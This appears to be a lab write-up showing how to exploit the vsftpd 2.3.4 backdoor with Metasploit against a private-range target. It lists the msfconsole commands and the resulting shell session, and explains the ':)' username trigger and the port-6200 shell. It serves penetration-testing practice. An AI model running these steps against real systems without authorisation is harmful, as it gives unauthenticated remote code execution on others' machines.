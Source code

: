 # Exploiting vsftpd 2.3.4 Backdoor with Metasploit

## 🧠 Objective

Exploit the known backdoor in vsftpd 2.3.4 to gain shell access to the target machine using Metasploit.

---

## 🖥️ Target Info

- **Target IP**: 192.168.56.102
- **Service**: FTP (Port 21)
- **Vulnerable Version**: vsftpd 2.3.4
- **Tool Used**: `msfconsole`

---

## 🔍 Step 1: Launch Metasploit
msfconsole


## 🔍 Step 2: Search for the Exploit
search vsftpd
### 🔹 Result:
exploit/unix/ftp/vsftpd_234_backdoor


## 🔍 Step 3: Configure the Exploit
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.56.102
set RPORT 21
run
### 🔹 Result:
[*] Command shell session opened (You now have remote command execution as the nobody user.)


📝 Notes
This is a real backdoor present in vsftpd 2.3.4.
The exploit opens a shell on port 6200 when a special smiley face ":)" is used as part of the username.
No authentication is needed — this is a severe vulnerability.


🔚 Conclusion
The vsftpd 2.3.4 service on the target machine is vulnerable to a known backdoor that allows remote code execution.
This exploit provides initial access to the system, which could be followed by privilege escalation.
